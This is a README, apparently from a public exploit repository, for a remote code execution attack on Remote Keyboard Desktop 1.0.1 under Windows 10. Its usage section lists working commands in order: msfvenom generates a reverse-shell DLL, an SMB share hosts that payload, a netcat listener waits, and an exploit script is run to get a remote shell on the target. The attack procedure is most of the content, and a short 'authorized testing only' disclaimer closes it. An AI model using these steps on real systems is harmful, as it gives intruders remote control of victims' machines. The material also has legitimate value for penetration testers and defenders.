 # Remote Keyboard Desktop 1.0.1 - RCE Exploit

**Author:** Chokri Hammedi  
**Tested on:** Windows 10 Pro (19045)  
**Version:** 1.0.1  
**Date:** May 17, 2025


## Usage

1. Generate DLL payload: <br>
   `msfvenom -p windows/shell_reverse_tcp LHOST=<your_ip> LPORT=8080 -f dll > shell.dll`

2. Host the payload:
   `impacket-smbserver SHARE . -smb2support`

3. Start listener:
   `nc -lnvp 8080`

4. Run the exploit:
   `python3 exploit.py`

![image](https://github.com/user-attachments/assets/72ffa7ea-3513-4762-ad28-60081d4bd325)

![image](https://github.com/user-attachments/assets/e34148f7-9bfd-40dd-9414-e027e1374457)


## Legal

For authorized testing only. Do not use without explicit permission. Unauthorized use may violate laws.

GitHub: [github.com/blue0x1](https://github.com/blue0x1)
